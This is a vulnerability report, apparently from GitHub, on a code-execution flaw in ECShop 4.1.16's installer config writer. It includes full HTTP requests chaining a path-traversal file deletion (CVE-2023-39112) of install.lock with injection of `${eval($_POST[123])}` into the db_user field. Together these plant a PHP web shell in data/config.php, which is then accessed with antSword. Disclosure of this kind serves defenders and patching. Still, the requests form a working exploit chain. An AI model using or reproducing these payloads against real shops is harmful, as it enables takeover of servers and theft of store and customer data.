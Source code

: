 # ECShop 4.1.16 Code Execution Vulnerability
## Vulnerability Position
In the create_config_file() function on line 313 of the \source\ecshop\install\includes\lib_installer.php file
```
function create_config_file($db_host, $db_port, $db_user, $db_pass, $db_name, $prefix, $timezone)
{
    global $err, $_LANG;
    $db_host = construct_db_host($db_host, $db_port);

    $content = '<?' ."php\n";
    $content .= "// database host\n";
    $content .= "\$db_host   = \"$db_host\";\n\n";
    $content .= "// database name\n";
    $content .= "\$db_name   = \"$db_name\";\n\n";
    $content .= "// database username\n";
    $content .= "\$db_user   = \"$db_user\";\n\n";
    $content .= "// database password\n";
    $content .= "\$db_pass   = \"$db_pass\";\n\n";
    $content .= "// table prefix\n";
    $content .= "\$prefix    = \"$prefix\";\n\n";
    $content .= "\$timezone    = \"$timezone\";\n\n";
    $content .= "\$cookie_path    = \"/\";\n\n";
    $content .= "\$cookie_domain    = \"\";\n\n";
    $content .= "\$session = \"1440\";\n\n";
    $content .= "define('EC_CHARSET','".EC_CHARSET."');\n\n";
    $content .= "define('ADMIN_PATH','admin');\n\n";
    $content .= "define('AUTH_KEY', 'this is a key');\n\n";
    $content .= "define('OLD_AUTH_KEY', '');\n\n";
    $content .= "define('API_TIME', '');\n\n";
    $content .= "define('STORE_KEY','".md5(microtime() . mt_rand(0,1000))."');\n\n";
    $content .= '?>';


    $fp = @fopen(ROOT_PATH . 'data/config.php', 'wb+');
    if (!$fp)
    {
        $err->add($_LANG['open_config_file_failed']);
        return false;
    }
    if (!@fwrite($fp, trim($content)))
    {
        $err->add($_LANG['write_config_file_failed']);
        return false;
    }
    @fclose($fp);

    return true;
}
```
We control the variable value of $db_host, $db_port, $db_user, $db_pass, $db_name, $prefix, $timezone by constructing these variable values, and write them into the data/config.php file, resulting in arbitrary code execution.
## Vulnerability Verification
In order to achieve the purpose of file writing, we need to use CVE-2023-39112 to delete the specified file. The following is the request packet to delete the file, and the administrator cookie needs to be supplemented.
```
POST /admin/database.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36 Edg/111.0.1661.54
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: 
Content-Type: application/x-www-form-urlencoded
Content-Length: 35

act=remove&file[]=../../data/install.lock
```
![image](https://github.com/Luci4n555/vul_report/assets/116565145/edfd2d8c-059c-4586-a133-d71c8a94cd91)

Then we exploit this vulnerability to write malicious code.
```
POST /install/index.php?step=create_database HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36 Edg/111.0.1661.54
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 88
Connection: close

db_host=localhost&db_port=3306&db_user=${eval($_POST[123])}&db_pass=&db_name=&lang=zh_cn
```
![image](https://github.com/Luci4n555/vul_report/assets/116565145/d3dd5250-9096-450d-919a-ad28d8384ba2)
Finally we use the antSwordPublic tool to connect and test code execution.
The link address is: http://127.0.0.1/data/config.php, the password is 123.
![image](https://github.com/Luci4n555/vul_report/assets/116565145/2dd54abb-0ee7-4167-a0a6-9e0cc3259624)
Successful execution of arbitrary code.
